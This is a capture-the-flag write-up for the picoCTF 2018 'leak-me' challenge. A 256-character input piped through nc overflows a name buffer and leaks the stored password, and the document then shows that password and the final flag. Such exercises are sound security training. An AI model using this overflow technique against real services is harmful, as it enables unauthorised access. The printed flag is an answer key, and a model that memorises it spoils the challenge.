 # leak-me - Points: 200 - (Solves: 396)

Can you authenticate to this [service][1] and get the flag?
Connect with nc 2018shell2.picoctf.com 23685.
[Source][2].

[1]: https://2018shell2.picoctf.com/static/0137fbb3b490207cccbc5aa454e5d6eb/auth
[2]: https://2018shell2.picoctf.com/static/0137fbb3b490207cccbc5aa454e5d6eb/auth.c

## Hint

    Are all the system calls being used safely?
    Some people can have reallllllly long names you know..

---

Server shell

```sh
% python -c 'print("A"*256)' | nc 2018shell2.picoctf.com 23685
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_a28d9d

Incorrect Password!
% nc 2018shell2.picoctf.com 23685
What is your name?
a
Hello a,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_a28d9d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}
```

picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}
